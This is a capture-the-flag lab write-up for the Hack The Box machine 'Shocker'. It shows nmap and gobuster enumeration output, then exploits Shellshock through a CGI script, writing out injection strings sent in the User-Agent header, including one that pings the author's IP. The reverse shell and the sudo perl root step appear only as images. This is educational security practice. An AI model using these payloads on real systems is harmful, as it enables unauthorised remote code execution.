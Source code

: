 ```yaml
---
title: "[HTB] Machine: Shocker"
description: "[HTB] Machine: Shocker"
date: 2023-06-07
menu:
  sidebar:
    name: "[HTB] Machine: Shocker"
    identifier: htb-machine-shocker
    parent: htb-machines-linux
    weight: 10
hero: images/shocker.png
tags: ["HTB"]
---
```


# Shocker
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV 10.10.10.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-09 20:39 BST
Nmap scan report for 10.10.10.56 (10.10.10.56)
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.10 seconds
```

![](./images/1.png)

- `gobuster`
  - the option `-f` is important, since it will `Append / to each request`
  - I wasn't able to find anything without that option
```
└─$ gobuster dir -u http://10.10.10.56/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -t 50 -f     
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
2023/06/10 05:47:40 Starting gobuster in directory enumeration mode
===============================================================
/cgi-bin/             (Status: 403) [Size: 294]
/icons/               (Status: 403) [Size: 292]
/server-status/       (Status: 403) [Size: 300]
```
- Let's check the content of the `cgi-bin`
```
└─$ gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -t 50 -x sh,cgi,pl 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              sh,cgi,pl
[+] Timeout:                 10s
===============================================================
2023/06/10 06:09:48 Starting gobuster in directory enumeration mode
===============================================================
/.html.cgi            (Status: 403) [Size: 303]
/.html.pl             (Status: 403) [Size: 302]
/.html                (Status: 403) [Size: 299]
/.html.sh             (Status: 403) [Size: 302]
/user.sh              (Status: 200) [Size: 118]
/.htm                 (Status: 403) [Size: 298]
/.htm.cgi             (Status: 403) [Size: 302]
/.htm.pl              (Status: 403) [Size: 301]
/.htm.sh              (Status: 403) [Size: 301]
/.                    (Status: 403) [Size: 294]
/.htaccess            (Status: 403) [Size: 303]
...
```
- We found `user.sh`

![](./images/2.png)
![](./images/3.png)
## Foothold/User
- The name of the suggest the `Shellshock`, [CVE-2014-6271](https://blog.qualys.com/vulnerabilities-threat-research/2014/09/24/bash-remote-code-execution-vulnerability-cve-2014-6271)
  - https://en.wikipedia.org/wiki/Shellshock_(software_bug)
  - `env x='() { :;}; echo vulnerable' bash -c "echo this is a test"`
  - `User-Agent` header is usually the target
    - We can also test other headers: `Cookie`, `Referer`
  - We use `echo;` to receive response back from server, but RCE still exists without it
    - You can try `() { :;}; /bin/ping -c1 10.10.16.3`
      - You will not receive `http-response`, but will receive ping
  - Notice that we have to use full `path` of the binary for execution

![](./images/4.png)
![](./images/5.png)

- Let's get a `reverse shell`

![](./images/6.png)

## Root
- Enumeration for privesc
  - `sudo -l`

![](./images/7.png)

- [GTFOBins](https://gtfobins.github.io/gtfobins/perl/)

![](./images/8.png)

- Rooted

![](./images/9.png)
